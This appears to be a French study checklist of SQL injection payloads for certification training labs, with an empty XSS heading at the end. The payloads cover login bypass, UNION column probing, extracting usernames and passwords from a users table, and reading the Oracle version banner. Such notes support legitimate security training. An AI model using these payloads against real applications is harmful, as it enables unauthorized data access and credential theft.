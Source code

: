 # Liste des commandes SQLi, XSS, CRCF ect.... pour passer la certification


## 1/ SQL injection

- [X] SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

    `?category=Pets' OR 1=1 --`

- [X] SQL injection vulnerability allowing login bypass
    
    `csrf=ok13OxKIWATN6nuJiviRmIaPQBeSNtTB&username=administrator'--&password=test`
    

- [X] SQL injection UNION attack, determining the number of columns returned by the query

    `?category=Pets'+UNION+SELECT+NULL,NULL,NULL--`

- [X] SQL injection UNION attack, finding a column containing text

    `?category=Pets'+UNION+SELECT+NULL,'3QFtaD',NULL--`

- [X] SQL injection UNION attack, retrieving data from other tables

    `?category=Gifts'+UNION+SELECT+username,password+from+users--`

- [X] SQL injection UNION attack, retrieving multiple values in a single column

    `?category=Pets'+UNION+SELECT+NULL,CONCAT(username,'+',password)+FROM+users--`
    
- [X] SQL injection attack, querying the database type and version on *Oracle*

    `?category=Pets'+UNION+SELECT+'a',banner+FROM+v$version--`

- [ ] SQL injection attack, querying the database type and version on MySQL and Microsoft

- [ ] SQL injection attack, listing the database contents on non-Oracle databases

- [ ] SQL injection attack, listing the database contents on Oracle

- [ ] Blind SQL injection with conditional responses

- [ ] Blind SQL injection with conditional errors

- [ ] Visible error-based SQL injection

- [ ] Blind SQL injection with time delays

- [ ] Blind SQL injection with time delays and information retrieval

- [ ] Blind SQL injection with out-of-band interaction

- [ ] Blind SQL injection with out-of-band data exfiltration

- [ ] SQL injection with filter bypass via XML encoding






## 2/ XSS
